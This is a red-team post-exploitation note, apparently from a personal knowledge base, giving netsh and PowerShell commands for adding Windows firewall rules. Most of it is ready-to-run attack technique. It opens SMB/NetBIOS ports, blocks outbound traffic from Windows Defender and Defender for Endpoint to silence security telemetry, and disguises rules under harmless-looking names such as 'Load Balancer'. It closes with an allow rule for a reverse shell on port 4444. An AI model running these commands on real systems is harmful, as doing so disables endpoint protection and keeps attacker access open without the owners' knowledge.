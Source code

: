 # Add Firewall Rule

## 01 - Usage

### 1.1 - Command Prompt

> [!NOTE] Elevated Privileges is required
> Using `netsh.exe` requires administrative rights when adding firewall rules.

You can remotely add a firewall rule communicating through NETBIOS.

```
C:\> netsh.exe [-r <IP>] advfirewall firewall add rule name="<rule_name>" dir=<in | out> action=<allow | block | bypass> protocol=<any | tcp | udp | icmpv4 | icmpv6> localport=<PORT>
```

### 1.2 - PowerShell

```
PS C:\> New-NetFirewallRule -DisplayName "<rule_name>" -Direction <Inbound | Outbound> -LocalPort <PORT> -Action <NotConfigured | Allow | Block> -Protocol <TCP | UDP | ICMPV4 | ICMPV6>
```

## 02 - Scenarios

### 2.1 - Allow Incoming Ports

#### 2.1.1 - Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=445
```

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=135
```

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=139
```

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=138
```

#### 2.1.2 - PowerShell

```

```

### 2.1 - Block Outbound Packets

#### 2.1.1 - Command Prompt

Limit certain UDP outbound packets for NETBIOS fingerprinting

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" protocol=udp dir=out localport=137 action=block
```

Limit certain UDP outbound packets for DNS lookup fingerprinting

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" protocol=udp dir=out localport=53 action=block
```

#### 2.1.2 - PowerShell

Limit certain UDP outbound packets for NETBIOS fingerprinting

```
PS C:\> New-NetFirewallRule -DisplayName "Load Balancer" -Direction Outbound -LocalPort 137 -Action Block -Protocol UDP
```

Limit certain UDP outbound packets for DNS lookup fingerprinting

```
PS C:\> New-NetFirewallRule -DisplayName "Endpoint Response Agent" -Direction Outbound -LocalPort 53 -Action Block -Protocol UDP
```

### 2.2 - Block Security Endpoints

#### 2.2.1 - Windows Security

Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="Block 443 MsMpEng" dir=outbound protocol=TCP action=block service=WinDefend remoteport=443

C:\> netsh.exe advfirewall firewall show rule name="Block 443 MsMpEng"
```

PowerShell

```powershell
PS C:\> New-NetFirewallRule -DisplayName "Block 443 MsMpEng" -Name "Block 443 MsMpEng" -Direction Outbound -Service WinDefend -Enabled True -RemotePort 443 -Protocol TCP -Action Block

PS C:\> Get-NetFirewallRule -DisplayName "Block 443 MsMpEng"
```

#### 2.2.2 - Advanced Threat Protection

Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="Block 443 SenseCncProxy" dir=outbound program="%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" remoteport=443 protocol=TCP action=block

C:\> netsh.exe advfirewall firewall add rule name="Block 443 MsSense" dir=outbound program="%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" remoteport=443 protocol=TCP action=block
```

PowerShell

```
PS C:\> New-NetFirewallRule -DisplayName "Block 443 SenseCncProxy" -Name "Block 443 SenseCncProxy" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" -RemotePort 443 -Protocol TCP -Action Block

PS C:\> New-NetFirewallRule -DisplayName "Block 443 MsSense" -Name "Block 443 MsSense" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" -RemotePort 443 -Protocol TCP -Action Block
```

#### 2.2.3 - Third Party

TODO: Provide other examples from different endpoints

### 2.3 - Allow programs with incoming/outgoing connection

TODO: Provide examples such as in a restricted network by adding a firewall rule to establish a callback shell connection

#### 2.3.1 - Callback Reverse Shell

TODO: Test this

Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="Callback Reverse Shell" profile=domain,private,public remoteport=4444 protocol=tcp enable=yes dir=out program="C:\path\to\shell.exe" action=allow
```

PowerShell

```
PS C:\> New-NetFirewallRule -Name "Callback Reverse Shell" -Profile "Domain,Private,Public" -Protocol TCP -Enabled True -Direction Outbound -RemotePort 4444 -Program "C:\path\to\shell.exe" -Action Allow
```

#### 2.3.2 - Callback Bind Shell

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Host/0xC - Networking/Network Configuration/Firewalls/Living off the Land]]

- [[Firewall Rule Names Examples]]

### Red Team Guides

- [Red Team Guides: Registry Attack Vectors](https://blog.redteamguides.com/registry-attack-vectorsrtc0018)

### Bhabesh

- [Bhabesh: Detect Addition of New Firewall Rules in Defender Firewall](https://bhabeshraj.com/post/detect-addition-of-new-firewall-rules-in-defender-firewall/)

### Ivan

- [Ivan: Installing Reverse Shell Backdoors on Windows Systems](https://ivanitlearning.wordpress.com/2019/06/09/installing-reverse-shell-backdoors-on-windows-systems/)

### Soren Fritzboger

- [Soren Fritzboger: Silencing Microsoft Defender for Endpoint using firewall rules](https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)